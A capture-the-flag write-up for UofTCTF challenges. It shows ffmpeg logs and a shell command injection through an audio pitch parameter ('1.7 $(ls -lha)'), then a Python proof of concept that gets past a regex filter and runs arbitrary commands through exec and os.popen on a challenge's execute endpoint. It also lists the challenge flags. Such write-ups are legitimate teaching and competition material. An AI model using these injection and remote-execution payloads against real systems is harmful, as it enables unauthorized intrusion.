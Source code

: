 ```
    encoder         : Chrome
  Duration: N/A, start: 0.000000, bitrate: N/A
  Stream #0:0(eng): Audio: opus, 48000 Hz, mono, fltp (default)
Stream mapping:
  Stream #0:0 -> #0:0 (opus (native) -> vorbis (libvorbis))
Press [q] to stop, [?] for help
Output #0, ogg, to '/app/output/0a8445c0-b561-11ee-b2b7-a532f82fac95.ogg':
  Metadata:
    encoder         : Lavf60.16.100
  Stream #0:0(eng): Audio: vorbis, 44100 Hz, mono, fltp (default)
    Metadata:
      encoder         : Lavc60.31.102 libvorbis
size=       3kB time=00:00:00.03 bitrate= 742.6kbits/s speed=15.3x    
[out#0/ogg @ 0x7f8d02d395c0] video:0kB audio:12kB subtitle:0kB other streams:0kB global headers:3kB muxing overhead: 29.082904%
size=      15kB time=00:00:01.69 bitrate=  73.3kbits/s speed=24.4x   
```
see this page use command to research

![image](https://hackmd.io/_uploads/HySaIOuiT.png)

You can see the pitch will inject to ,atempo=1/1
We use command "1.7 $(ls -lha)" to the pitch value
Observe carefully And we can see the output
View exploit

![image](https://hackmd.io/_uploads/ryo1PudoT.png)

![image](https://hackmd.io/_uploads/r1MePO_iT.png)

You can see file secret.txt

![image](https://hackmd.io/_uploads/SyDlP_Ooa.png)
Flags : `uoftctf{Y0URPitchIS70OH!9H}`

### No code

Explain :

![image](https://hackmd.io/_uploads/ByEpwOujT.png)

![image](https://hackmd.io/_uploads/ry_6P__ia.png)

flag : `uoftctf{r3g3x_3p1c_f41L_XDDD}`

POC: 

```
import requests,json
cmd=input('Commmand: ')
PL=f"\nstr(exec(\"import os; result=os.popen(\'{cmd}\').read();\"))+result"
print(PL)
r=requests.post(
    "https://uoftctf-no-code.chals.io/execute",
    data={"code": PL}
)
data=json.loads(r.content.decode())
print(data['output'][4:])
```
